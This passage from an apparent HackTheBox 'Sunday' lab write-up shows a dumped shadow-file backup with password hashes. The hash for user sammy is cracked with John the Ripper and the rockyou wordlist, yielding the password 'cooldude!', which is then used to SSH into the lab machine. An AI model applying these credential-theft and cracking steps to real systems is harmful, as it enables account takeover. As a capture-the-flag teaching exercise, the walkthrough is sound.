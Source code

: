 ```txt
sunny@sunday:/backup$ cat shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Inside of the directory were contents from an /etc/shadow file. You can see that Sammy and Sunny’s password hash were visible. We already have Sunny’s cleartext password, so if we wanted to crack these we only need to focus on Sammy’s hash. Simply copy Sammy’s password hash and run it through a tool like hashcat to get the cleartext password.

### crack the hash

we know the hash of sammy was `$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB` , we will use john the ripple or hashcat to brute force it.

```bash
echo '$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB' > sammyhash
john -w='/usr/share/wordlists/rockyou.txt' ./sammyhash
```

or  google `hash identification` then serach for this hash type and crack it.

```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Sunday]
└─$ john -w='/usr/share/wordlists/rockyou.txt' ./sammyhash
Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 128/128 AVX 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (?)     
1g 0:00:01:18 DONE (2022-09-03 17:04) 0.01268g/s 2585p/s 2585c/s 2585C/s domonique1..chrystelle
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

![[Sunday-04.png]]

Excellent. we will know the credential for sammy was `cooldude!`

### shell within sammy

```bash
ssh sammy@10.10.10.76 -p 22022
cooldude!
```
